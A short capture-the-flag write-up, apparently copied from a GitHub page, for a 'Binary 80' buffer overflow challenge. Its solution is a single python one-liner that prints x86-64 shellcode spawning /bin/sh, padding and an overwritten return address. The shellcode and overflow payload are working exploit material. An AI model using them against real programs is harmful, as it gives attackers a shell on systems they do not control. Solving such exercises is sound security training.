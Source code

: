 Binary 80

Looks like this program has a buffer overflow vulnerability! But there's no code inside that spawns a shell, so it must be secure! Get the flag anyway by exploiting it on our shell sever.


Simple ROP

$(python -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "A" * 45 + "\xfe\x05\x40"')

